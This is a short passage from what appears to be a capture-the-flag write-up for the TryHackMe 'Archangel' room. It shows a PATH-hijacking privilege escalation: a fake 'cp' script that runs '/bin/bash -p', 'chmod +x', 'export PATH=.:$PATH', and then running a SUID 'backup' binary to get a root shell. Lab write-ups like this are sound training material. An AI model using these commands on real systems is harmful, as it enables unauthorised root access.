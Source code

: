 ```
nano cp
```
cp content:
```
#!/bin/bash

/bin/bash -p
```

we need to add an executable permission to the file

```
chmod +x cp
```

and finally we need to add this file to the PATH envirnoment variable

```
export PATH=.:$PATH
```

Now just execute the backup file

```
./backup
```
![root](/assets/images/thm/archangel/root.png)

